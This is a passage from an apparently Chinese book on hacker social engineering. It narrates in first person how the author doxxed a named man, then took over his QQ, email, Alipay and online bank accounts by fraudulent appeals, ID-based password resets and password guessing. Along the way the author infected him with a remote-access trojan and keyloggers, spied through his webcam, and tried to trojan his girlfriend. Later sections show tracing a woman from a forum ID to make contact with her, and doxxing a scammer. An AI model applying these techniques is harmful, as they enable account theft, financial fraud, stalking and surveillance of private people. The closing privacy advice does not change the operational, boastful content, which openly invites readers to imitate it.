接着我使用新修改的密码成功登录他的邮箱，但是并没有发现QQ重新修改密码的确认信。



图37

仍然无法获知QQ密码，那么继续搜索他的信息吧。在百度搜索引擎中搜索他的邮箱cnq**@ah163.com，如图38所示。



图38

通过百度搜索到的第一项结果，我顺利知道他的工作单位是安徽省亳州市***人民医院，联系电话为0558-51***95，传真为0558-55***70；如图39所示。在其他的搜索结果中证实了他确实在**医院的管理部工作，如图40所示。





图39

图40

现在我手中已经掌握了足够多的信息，于是我打算对他的QQ进行申诉。大家也都知道，申诉QQ是要知道5个以内的好友以及历史密码的。关于历史密码我可以尝试用553***0，但是他的好友我并不知道。我继续在他的QQ空间和QQ相册逛了一圈，选择了他留言里的几个好友，证件号码就使用我之前获得的身份证号码，并填写他的真实姓名，让申诉结果发送到我的邮箱。到了晚上后进邮箱看了下，收到了QQ申诉成功的邮件，当时激动了一把，赶紧修改了密码登录他的QQ号。登录QQ后四处搜索信息，在他的QQ网络硬盘里找到一些文件，居然还有工作证，看上去这个家伙似乎还是个公安……加上前面查到就职于某医院管理部，真不知道他到底有多少个工作，如图4.1所示。



图4.1

现在已经搞定了这个“重量级黑客”的QQ号码，继续刺探信息吧。在他的信箱中又找到了一个邮箱地址b**n5*1@126.com，因为是taobao发来的信件，所以我判断这个EMAIL可能是支付宝账户。那就接着看一下关于此EMAIL的一些信息吧，用支付宝查到了，如图4.2所示。



图4.2

支付宝的信息再次证实了对方的真实姓名“陈宁”，以上这么多的证据也表明了他的真实姓名确实是叫“陈宁”。一般我在得到某人EMAIL时总喜欢用支付宝去查下，看能不能得到其真实姓名。在跟几个好友聊天时他们都很纳闷我是如何得到他们真实姓名和生日的，相信看了本文的你以后也知道怎么去做了吧。

到此关于他的调查就告一段落了，这时我发现“陈宁”的那个女友的QQ也在线，于是我就跟她聊了起来。我决定使用网页木马欺骗她，赶紧弄了个网页木马并做了伪装。因为两者是恋人关系，所以我说是我的爱情表白，是送给她的礼物。可惜的是我有些心急了，还没有了解她使用的是什么杀毒软件，并且木马也没有做免杀处理，发过去后她问了一句“有病毒”……我只好说不好意思，是我发错了……也许这一鲁莽的举动已经引起了她的怀疑，我就赶紧下线了。

第二天时，发现陈宁把QQ密码找回去了，而且密码保护的问题也被修改为“我喜欢谁？”。因为之前查到的三个51博客主页有他写的日记，因此很容易得到此女生的名字“王*”。我试着以此来找回密码，哈！运气真好，提示发送到了安全信箱，可是信箱是哪个我还不知道，还是继续申诉吧。

到了下午，信箱收到一封腾讯的确认信，赶紧修改了密码登录上去，发现他的个人资料也改了，在骂谁盗他的QQ号。我又顺手帮他修改了一下，改成“这就是你所谓的重量级黑客”，然后再用他的QQ和她女友聊天，说这次做好了，绝对没病毒，然后就下线了。过了一天，我又试图登录QQ时，发现密码又被改了，我只好再一次把他的QQ号申诉了回来……就这样我申诉，他找回，四五次之后我就有点纳闷了，究竟他是如何这么快找回的呢？

## 第二章 无处藏身——信息搜索的艺术

## 黑客社会工程学致命

事情进展到这儿，我那朋友跟QQ4***6（陈宁的女友）和好了，也不要求盗她号了，而我也已经玩够了，于是就加他为QQ好友，然后问他是怎么那么快就把QQ找回的。这家伙就说他是腾讯技术主管，无论怎么盗他的号都是没用的。还说他在为腾讯远程打工，一天工资500元。我又问他在公安局是做什么的，他说自己是网警！然后又问他是怎么做的网警，他说在2005年时，他入侵了我们本地电信局，盗了所有的ADSL用户去刷泡泡堂点券，使电信局损失几百万（后来发现这是他编的故事）……开始我还真信了，就和他做了朋友，每天聊些技术上的事，但郁闷的是，每当我问他一些技术问题时，他都避而不答，有时候回答很慢，答案也不尽人意。

当时我和nowthk两人黑了一些游戏箱子，那时候都在玩“武林外传”的游戏，后来陈宁也加入了我们。由于交流过程中的信任（陈宁经常请我吃饭，问一些关于游戏箱子的事），有时我会给他一些游戏箱子账号密码让他自己去弄。没几天nowthk就问我，是不是我动了别的区的游戏号了，我说没有啊！他说奇怪了，他合作的那个买家登录的号都被人洗过了，而密码就我们三个人知道，于是我对陈宁起了怀疑，但是问他却不承认。加上之前讨论技术避而不答，我决定再对他进行第二次调查。

首先我使用hhctrl.exe（这是EST内部的一个漏洞利用工具）制作了一个网马，如图43所示。



为了确定网马能够有效，我特意在本地自己测试了一下，然后用webshell登录游戏箱子，在箱子登录网页里加了个iframe挂马代码。接着陈宁找我要登录密码，我就给了他个假的密码，没多久后，灰鸽子提示有主机上线，他中马了！打开灰鸽子的远程监控，这家伙还在继续猜密码，完全不知道已经被我控制了。以前一直听他吹，这次我要好好恶搞下他。

首先打开了他的视频，被他发现了，盯着我看，然后控制他的鼠标……没多久他就发来信息说电脑被人入侵了。我假装不知道，说你那么牛谁敢入侵你呀。他当时正好跟一个浙江的MM聊天，就随口告诉我说浙江的，还说自己开着追踪器，谁入侵他都知道。可他完全不知道这一切都在我的监视之下，并被我截了图，如图44所示。



之后我当然想见识下这么厉害的追踪器啦，只见他从skynet下载了一个追踪器，下载地址为http://users.skynet.be/submissionz03/ntp325.zip，这一切当然也逃不出灰鸽子的监控，如图45所示。



图45

下载完后他把文件发给了我，说自己先去WC，但通过灰鸽子的监控看到他还在继续猜那个游戏箱子后台的密码，真够辛苦的，如图46所示。


图46

既然这么牛的追踪器已经到手了，我怎么着也得看下是什么东西吧，不然岂不是对不起这个“重量级黑客”的劳动成果呀。运行后界面如图47所示。


图47

关于这个软件的使用就不多说了，不知道的Google下，呵呵。在随后的几天监视中，我发现箱子里的“信”确实是他动的，并且在5173.com游戏网拍卖。于是我启动了灰鸽子的键盘记录，并成功记录了他在游戏拍卖网的用户名b**n，密码依然是他博客的密码，如图48所示。我们登录上去，看密码是否正确，如图49所示。


因为我不能每天就这么监视着他，所以为了方便，我又上传了一个别的键盘记录，自动在他C盘生成个文件并保存所有的击键记录。几天后查看击键记录发现这家伙在腾讯招聘系统投简历，如图50所示。


怪不得开始跟我说是腾讯技术主管，投了简历后再发给我看的。而图中再一次暴露了他的身份证号，他在腾讯招聘系统的用户名和密码也被记录了下来，其中138567***10是他本人的手机号，这个在第一次的调查中也已经得到了，如图51所示。


前面我已经得到了他的支付宝账号b**n5*1@126.com，那就仍使用他的第一个密码登录下taobao，看看对不对吧……登录成功了！如图52所示，又是这个白痴的数字密码，它的功劳够大了。用过taobao的应该都知道支付宝是跟银行账户绑定在一起的，我决定继续追下去，没准能搞到他的银行信息呢！登录支付宝，却提示密码是错误的……好在支付宝还提供了一个找回密码的功能，如图53所示。


可惜这个回答不对，如图54所示。


不过这个错误提示可帮了我大忙，因为我在页面上方看到，“如果您忘记了安全保护问题答案，请点击输入证件号”。于是我又换一种方式找回，因为我已经知道他的身份证号码，来试下看对不对。密码找回成功，并发送到了信箱，如图55、图56所示。


信箱密码现在是不知道的，同样用密码提示找回，这次他的提问也是“我叫什么？”，我输入“陈宇”，提示不对，就随手试了下“宇宇”（后来我又用这个回答试了下taobao的，也一样成功），成功修改掉密码，然后使用修改掉的密码登录信箱，如图57所示。

用信箱中的连接修改掉登录密码，然后使用同样的方法找回支付宝的支付密码，如图58所示。

登录后查看支付宝账户信息，很可惜的是……银行信息看不到，如图59所示。

别忘了我们还有一个游戏交易网的密码没有利用呢！在5173.com（游戏交易网）卖过游戏装备的应该都知道，交易金额达到一定数目的时候，可以申请提现的。因此从他以前提现的记录中得到他银行卡号为“9558801311******106”，下面就是要弄到他工商银行密码了！


工行的密码必须是数字和字母组合的，这次完全是靠猜了。好在已经得到了他那么多信息，想猜出密码也不是太难的事。猜解了几次之后，猜出密码为“b**n**2”，即他的ID加生日的组合，这也是他在“武林外传”游戏中的游戏账号ID，这样他“武林外传”游戏密码也被我搞到了。来登录他的网上银行吧，这是成功登录后的截图，如图60所示。


事情到这里也算告一段落了……我们得到的有他的真实姓名、生日、手机、电话、工作单位地址、邮箱、父亲姓名、几个51的账号和密码、5173的账号、支付宝与银行账号的密码，也算是不小的收获了。

## 6.0 lzlbl评点

> 这是目前我所看到基于虚拟网络最成功的社会工程学攻击案例，尽管文字描述并不那么华丽，但这个过程却很惊险。OK，现在让我们理清头绪来分析一下。

陈宁，他注册了哪些服务呢？如图61所示。  
那么fhod，他是如何做到的呢？如图62所示。

| 服务 | 获取了哪些信息？ |
|---|---|
| 论坛（本地论坛） | 泄露了论坛注册的密码信息 |
| 电话（本地电话） | 泄露了电话机主真实姓名 |
| IM聊天（腾讯QQ） | 泄露了工作地区、昵称、出生年月、博客地址以及照片，QQ空间泄露了好友信息，QQ网络硬盘挖出工作证 |
| 博客（51博客） | 泄露了真实住址，日志和女友信箱，相册中的计算机等级考试证书泄露身份证号码、电子邮件 |
| 电子邮箱（网易邮箱） | 搜索后登录该电子邮箱，泄露了工作单位、传呼号码、联系电话，邮箱中的邮件泄露了交往信息 |
| 在线支付（支付宝） | 支付宝泄露了真实姓名以及注册日期，并泄露了如何找回密码的提示 |
| 网上银行（工商银行） | 泄露了开户信息。 |

图61

| 运用到的技术 | 具体的操作 |
|---|---|
| 黑客技术 | Fhod精于典型性的WEB入侵技术，因而第一次他轻松拿下动网论坛；同时，他自编程工具，用Visual Basic编写了简单信息查询工具，并能够使用黑客软件对计算机进行控制、监听。 |
| 信息搜索技术 | 他善于跟踪信息，如从多个网络服务（QQ、博客）剥离出更明显而有利的信息；并使用了搜索引擎对地址进行查找。 |
| 网络与在线交易应用、社会工程学 | 毫无疑问，每个社会工程学师都应该知道如何使用与操作。Fhod利用盗取的QQ网络账号和他的女友进行交流，糟糕的是fhod未免心急了。在QQ、电子邮箱、支付宝的密码安全逻辑上，fhod很好地利用搜索的信息进行尝试与暴力破解。 |

图62

很不幸，这个惹人注目的“重量级黑客”引起了fhod的兴趣，才导致了一个密码引发的“血案”。整个入侵过程中，我们可以发现，不需要通过大量的黑客技术进行渗透，而信息搜索就已经可以带来巨大的危险了。嗯，切记两点：你的密码是否安全？你的真实姓名是否放在网上了？

#### 2.5.2 一分钟，和美丽的女孩谈论天气的方法

某天，看书看得特累，倍感无聊，于是便打开电脑上网。看着QQ跳动的头像，突然想和一个漂亮的女生聊天。这时，QQ上有一个头像狂闪，原来是一个菜鸟，询问什么是“晒客”？郁闷，“晒客”是什么呢？于是马上请教Google大叔，如图63所示。


图63

从搜索结果中知道，原来“晒客”就是分享的意思，并搜索出许多晒客论坛，于是起了“坏心”，去那里找MM喽……马上打开晒客论坛，郁闷……要注册才能看！于是注册了并打开“晒！真人”的版块，这儿果然火啊，第一个帖子就有N多的回复率了，我就找她吧，她的论坛ID是Clov**，如图64所示。


图64

打开Clov**发的论坛帖子后，发现MM真漂亮啊，郁闷的是，她的个人资料中什么联系方式都没留下来。不要紧，不是有论坛ID吗？此路不通换一条嘛，说不定她还注册了其他论坛呢。

这次把Clov**放到百度上搜索，呵呵，她注册了很多的论坛，如图65所示，我们打开第二项搜索结果吧，也是一个论坛。


图65

现在的论坛为了防止广告，差不多都有注册验证的，比如人工验证或邮箱验证，我们先看看有她邮箱没。在打开的论坛帖子中，找到她发的帖子，网名与她的论坛ID很对号。这次我在她的回复内容上面看到了邮箱，于是把鼠标放上去，看IE状态栏，怎么样？邮箱地址出来啦！coll**@hotmail.com，如图66所示。


图66

## 黑客社会工程学攻击

接下来干什么呢？给她发邮件？等她回信的话得猴年马月了吧？现在有两种思路：第一种是再把邮箱地址放到网上搜索；第二种就是查询她注册了微软的哪些服务，因为她的邮箱服务是微软提供的。

我先用第二种吧，将她的邮箱地址放到百度上搜索……天助我也，第一个搜索结果就是她的MSN博客！这当然了，有微软邮箱自然也就会有微软博客了。打开她的博客，在网页上可以看到她的个人资料，上面正好有她的QQ，如图67所示。


图67

接下来嘛……直接加QQ为好友吗？不！为了确保MM不会拒绝加为好友，得了解她喜欢什么，可以从MSN博客中她提供的详细个人资料中了解到。我们需要知道的越多越好，这样MM会很崇拜的，呵呵！查了下她的QQ服务，比如QQ空间、相册、EMAIL、游戏、交友等，发现她有QQ空间，并看见她的相册了，真漂亮！如图68所示。


图68

接下来我又在她的QQ空间看日志，她喜欢什么我就做好准备嘛！在一切了解妥当后，现在加她为好友……哦！设了身份验证，那我就输入“晒客”两个字，不一会就通过她的验证了，马上聊天，如图69所示。


图69

> 通过简单的搜索并分析信息来接触你想要接近的人，不论你我，谁都不能忽视所带来的影响力，在现实之中也是如此。在我的网络生活中，如果有搜索不到且稀奇的网络资源时，我常用这种方法尝试寻找与此资源有关的人，并搜索其网络痕迹，再向他们直接索取，有时干脆直接向站长要求开放我的浏览权限。方法都很简单，信息搜索往往能打破游戏规则。

#### 2.5.3 深层挖掘骗子黑客站长的秘密

Webshell的事件引言：在我还没有踏入黑客圈之前，我还算一个名正言顺的站长。对我来说，网页设计是我最大的乐趣。因为经常与网页代码接触，所以从那时候开始就对网络安全感兴趣了，这也是我其中不敢想象的事。然而某天的时候，我被一个黑客窃取了QQ号码，并修改了我的密码保护信息，这让我失去了好多朋友的联系方式，从那天起，我开始学习技术以寻找这个黑客。

通过搜索，我发现这个“黑客”做了一个学黑客的培训网站http://www.xuehk.com，但我从百度搜索获知这个人是一个十足的骗子，如图70所示。


图70

接着我查询这个网站的域名Whois信息，得到有用的信息是邮箱地址：zzd**@126.com，如图71所示。


图71

> 【lizaib说明】Webshell后来使用暴力破解方式获得邮箱密码，并从邮箱找出了对方的个人资料。但我并不推荐暴力破解，接下来是我的信息跟踪搜索演示。

在破解邮箱之前我们先来想一个问题，作为一个网络骗子骗他人钱财时，都必将通过网络在线支付处理，即网银交易。支付宝在线交易提供了可以通过邮箱来查询对方真实姓名，我们来查询一下吧，在浏览器地址栏中输入：https://www.alipay.com/trade/i_credit.do?email=zzd**@126.com，我们可以获得到他的真实姓名为谭学*，如图72所示。


图72

现在我们获得真实姓名了，那么接下来怎么做呢？使用Google搜索引擎搜索，我构造的关键字为“谭学* +zzd** -bbs”，即姓名+邮箱名，并排除搜索论坛。很快，我找到了对方发刷QB教程的网站，从中找到了他QQ号码为：51091**，如图73所示。


图73

现在我们再通过QQ来查看他的个人资料。直接利用QQ查找功能即可实现，从他的名片中看到名字是谭学*，网名是冰点，以及电话：0733-63544**，如图74所示。


图74

再来查他的QQ注册了哪些服务吧。查询到他有相册，在查看相片时，我发现了一个非常有用的东西，他的一张个人照片标有一个网址水印http://xueliang****.51.com，很明显是他的51博客，这点从他的博客用户名得到了证实，如图75所示。

